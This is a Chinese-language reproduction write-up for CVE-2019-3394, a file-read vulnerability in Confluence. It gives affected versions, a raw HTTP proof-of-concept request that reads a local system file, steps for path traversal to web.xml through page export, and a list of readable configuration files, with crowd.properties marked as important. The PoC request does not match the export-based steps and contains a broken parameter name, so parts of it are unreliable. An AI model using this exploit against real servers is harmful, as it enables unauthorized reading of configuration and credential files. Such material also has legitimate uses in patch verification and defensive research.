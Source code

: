 （CVE-2019-3394）Confluence 文件读取漏洞
========================================

一、漏洞简介
------------

> （CVE-2019-3394）Confluence 文件读取漏洞

二、影响范围
------------

-   6.1.0 \<= version \< 6.6.16

-   6.7.0 \<= version \< 6.13.7

-   6.14.0 \<= version \< 6.15.8

三、复现过程
------------

#### poc

    POST /rest/tinymce/1/macro/preview  HTTP/1.1
    Host: localhost:8090
    Content-Length: 175
    Accept: text/plain, */*; q=0.01 
    Origin: http://localhost:8090
    X-Requested-With: XMLHttpRequest
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.120 Safari/537.36 
    Content-Type: application/json; charset=UTF-8
    Referer: http://localhost:8090/ 
    Connection: close

    {"contentId":"1","macro":{"name":"widget","params": {"url":"https://www.viddler.com/v/test","width":"1000","height":"1000","_templat e":"file:///C:/Windows/win.ini"},"body":""}}

#### 触发条件

1.  一个有效的登录账号

2.  该账号具有在空间「添加页面」的权限

#### 复现步骤

1.创建一个空白页

![](resource/(CVE-2019-3394)Confluence文件读取漏洞/media/rId27.png)

2.插入一张网络图片

image

![](resource/(CVE-2019-3394)Confluence文件读取漏洞/media/rId28.png)

> 插入url改为你需要查看的文件，例如 /packages/../web.xml

3.点击发布，抓取报文

4.删除多余url前缀,只留下 `/packages/../web.xml` 并放开报文

![](resource/(CVE-2019-3394)Confluence文件读取漏洞/media/rId29.png)

5.查看页面源码确认修改成功

![](resource/(CVE-2019-3394)Confluence文件读取漏洞/media/rId30.png)

6.导出word，并抓包查看

![](resource/(CVE-2019-3394)Confluence文件读取漏洞/media/rId31.png)

![](resource/(CVE-2019-3394)Confluence文件读取漏洞/media/rId32.png)

#### 路径说明

由于 `catalina.jar`中的
`org.apache.catalina.webresources.StandardRoot.class`的
getResource方法的 `validate`存在过滤和限制，所以可遍历路径均在
`/WEB-INF`下

可读取的文件大致如下

    #WEB-INF下
    decorators.xml
    glue-config.xml
    server-config.wsdd
    sitemesh.xml
    urlrewrite.xml
    web.xml
    #/WEB-INF/classes下
    confluence-filtered-frames.properties
    confluence-init.properties
    crowd.properties(较为重要)
    hash-registry.properties
    lgplTemplate.soy
    log4j-diagnostic.properties
    log4j.properties
    logging.properties
    mime.types
    osuser.xml
    seraph-config.xml
    seraph-paths.xml
    velocity_implicit.vm
    velocity.properties
